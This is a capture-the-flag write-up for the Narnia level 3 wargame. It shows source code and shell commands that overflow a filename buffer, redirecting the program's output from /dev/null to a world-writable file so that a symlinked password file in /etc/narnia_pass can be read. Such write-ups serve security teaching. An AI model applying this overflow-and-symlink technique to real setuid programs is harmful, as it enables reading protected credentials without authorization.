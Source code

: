 The `narnia3` take file as a argument , and copy it's content deliver it into BLACKHOLE in the linux system called `/dev/null`.

```c
int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];
```

By seeing variable declaration order , first `ofile` is output path , then it has `ifile` , it is a input variable without any size limit from argument , as we know it follows stack data structure in memory level if we BufferOverFlow from `ifile` results in overwriting `ofile`

```
narnia3@gibson:/narnia$ ./narnia3 /etc/narnia_pass/narnia4
copied contents of /etc/narnia_pass/narnia4 to a safer place... (/dev/null)
```

Let's go inside temp directory so that we can have much permission ,  `char ifile[32];` has 32 Size 

```
narnia3@gibson:/narnia$ cd /tmp/
narnia3@gibson:/tmp$
```

```
(5) - brackets denotes size
/tmp/ (5) + "*" * 27 + /tmp
# the last char "/tmp" will BufferOverFlow
```

```
narnia3@gibson:/tmp$ d=/tmp/$(printf "%0.s*" {1..27})/tmp
narnia3@gibson:/tmp$ $d
-bash: /tmp/***************************/tmp: No such file or directory
narnia3@gibson:/tmp$ echo $d
/tmp/***************************/tmp

# Make those folder with -p flag denotes parent in dir commmand which means it creates every folders for mentioned path if not existing 

narnia3@gibson:/tmp$ mkdir -p $d

# Make soft link or symbolic link with next flag to current pwd with file
narnia3@gibson:/tmp$ ln -s /etc/narnia_pass/narnia4 $d/get

# we haven't create get file so make one and gave perm for all users
narnia3@gibson:/tmp$ touch /tmp/get
narnia3@gibson:/tmp$ chmod 777 /tmp/get

# give this cmd to narnia3
narnia3@gibson:/tmp$ /narnia/narnia3 $d/get

# ofile --> /dev/null was replace with /tmp/get due to BufferOverFlow
```
